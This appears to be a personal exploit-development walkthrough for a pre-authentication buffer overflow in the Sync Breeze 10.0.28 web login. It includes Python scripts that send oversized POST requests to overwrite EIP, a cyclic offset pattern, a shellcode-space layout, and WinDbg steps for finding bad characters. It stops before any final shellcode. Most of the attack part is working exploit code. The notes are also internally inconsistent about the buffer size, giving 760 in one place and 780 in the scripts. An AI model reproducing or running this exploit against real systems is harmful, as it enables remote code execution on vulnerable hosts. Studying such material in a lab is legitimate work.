





### Sync Breeze 10.0.28

Application runs webserver port 80 ; username field of HTTP POST ; pre-auth buffer-overflow ; haha muji normal webserver mah username - brute force , social engineering  ; application [x86 x64] sakkyo once control the EIP --> control the flow of the program ; 

What happened --> char.buffer thiyo 760 , so we sent 760 + shellcode to the application ; CONTROL THE EIP -->lets control that bad boy ; 


## CRASH THE PROGRAM !

Install SyncBreeze --> Enable web server --> Connect Windbg --> Open webserver !





WebSite -> Login page !


Proxy with Burp !


```crash.py

#!/usr/bin/python3
import socket
import sys

try:
 server = "192.168.177.10"
 port = 80

 
 filler = b"A" * 780
 eip = b"B" * 4
 
 payload = filler + eip
 
 content = b"username=" + payload + b"&password=A"

 request  = b"POST /login HTTP/1.1\r\n"
 request += b"Host: " + server.encode() + b"\r\n"
 request += b"User-Agent: Mozilla/5.0\r\n"
 request += b"Connection: close\r\n"
 request += b"Content-Type: application/x-www-form-urlencoded\r\n"
 request += b"Content-Length: " + str(len(content)).encode() + b"\r\n"
 request += b"\r\n"
 request += content

 print("[+] Sending exploit...")
 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 s.connect((server, port))
 s.send(request)
 s.close()
 print("[+] Done")


except socket.error:
 print("[-] Connection failed")
 
```


Cool ! We got AAAA's in the EIP , that means we are on our path !


## FIND THE OFFSET

Now as we crashed the application, But we need to know the exact buffer the application can hold without crashing ! For that there are two methods , one sending 800 A's then 790 .. and so on but that's hectic and manual so we use Metasploit tool msf_pattern-create and pattern offset to find the exact hit ! 





Now we use this as our payload !

Just the filler's changed others stay same !

```
filler = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Bas"
```


Restart the program , attach the debugger and "g" or GO ! We find the value of EIP changed !!







Now we know the exact spot to hit !s


## CONTROL THE EIP

Cool ! Now we can hit the program with the exact value which doesn't crash and now we can redirect the flow of the program. For that we need to control the EIP.... So we send 4 B's to check weathers they land on the EIP or not !!

```control_eip
#!/usr/bin/python3
import socket
import sys

try:
 server = "192.168.177.10"
 port = 80

 
 filler = b"A" * 780
 eip = b"B" * 4
 
 payload = filler + eip
 
 content = b"username=" + payload + b"&password=A"

 request  = b"POST /login HTTP/1.1\r\n"
 request += b"Host: " + server.encode() + b"\r\n"
 request += b"User-Agent: Mozilla/5.0\r\n"
 request += b"Connection: close\r\n"
 request += b"Content-Type: application/x-www-form-urlencoded\r\n"
 request += b"Content-Length: " + str(len(content)).encode() + b"\r\n"
 request += b"\r\n"
 request += content

 print("[+] Sending exploit...")
 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 s.connect((server, port))
 s.send(request)
 s.close()
 print("[+] Done")


except socket.error:
 print("[-] Connection failed")

```





Cool ! We got B's on the EIP, that means we can now control the program !


## LOCATING SPACE FOR OUR SHELLCODE

Now , we can place any stack address in the EIP registers ;

Lets inspect the ESP i.e stack pointer.....[ Give space for our shellcode! ]


For that, We send 1500 bytes of buffer to check whether we have enough space for our payload inside the buffer !!


```space_

 filler = b"A" * 780
 eip = b"B" * 4
 offset = b"C" * 4
 shellcode = b"D" * (1500 - len(filler) - len(eip) - len(offset))
 
 payload = filler + eip + offset + shellcode
 
```


Now after the crash --> Lets debugger !


--> r [ Displays all integer registers and flags. ]

1 --> dds esp L4 [ Just display top 4 memory space of esp]

2 --> dds esp+2c0 L4 [ Display last 4 memory space of esp ]


--> ? 2 - 1 [ last address of 4444 in esp - first address of 4444 in esp ]


Cool ! we got 708 bits of free space in the buffer ! Lets fucking go.....


## CHECKING BAD CHARACTERS

A character is bad if :
1. using it changes the nature of crash ;
2. mangled in memory ;
3. NULL Bytes [0x00] used to terminate a string in C / C++ ; so we can't use those in our payload!


To determine Bad Chars --> we send all the possible hex-values ; repeat until we find the chars. to avoid !
1. Send all the hex char as shellcode --> crash the program ; 
2. dbg > db esp -10 L20 / L180 --> we find which char. didnt flow to the memory , remove that char. --> and send it again and again until the flow is smooth !
